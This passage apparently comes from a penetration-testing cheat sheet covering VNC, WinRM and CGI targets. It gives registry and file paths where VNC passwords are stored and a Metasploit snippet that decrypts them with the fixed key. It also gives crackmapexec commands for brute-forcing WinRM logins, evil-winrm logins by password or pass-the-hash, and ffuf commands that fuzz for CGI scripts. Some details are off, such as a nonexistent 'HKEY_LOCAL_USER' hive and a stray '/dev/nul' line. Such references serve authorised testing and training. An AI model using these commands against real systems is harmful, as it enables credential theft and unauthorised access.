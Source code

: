 #### Windows

```
# RealVNC
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver

# TightVNC
HKEY_CURRENT_USER\Software\TightVNC\Server

# TigerVNC
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4

# UltraVNC
C:\Program Files\UltraVNC\ultravnc.ini
```

### Decrypt VNC password

```
msfconsole
irb
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
require 'rex/proto/rfb'
Rex::Proto::RFB::Cipher.decrypt ["2151D3722874AD0C"].pack('H*'), fixedkey
/dev/nul
```

------

## WINRM - 5985 - 5986

### Brute force

```
crackmapexec winrm <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
```

### Connecting

```
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
evil-winrm -i <IP> -u <USER> -H <HASH>
```

------

## CGI

### Found CGI scripts

```
ffuf -w /home/liodeus/wordlist/SecLists/Discovery/Web-Content/CGI-XPlatform.fuzz.txt -u <URL>/ccgi-bin/FUZZ -t 50
ffuf -w /home/liodeus/wordlist/SecLists/Discovery/Web-Content/CGIs.txt -u <URL>/ccgi-bin/FUZZ -t 50
ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u <URL>/cgi-bin/FUZZ -e .sh,.pl,.cgi -t 100
```
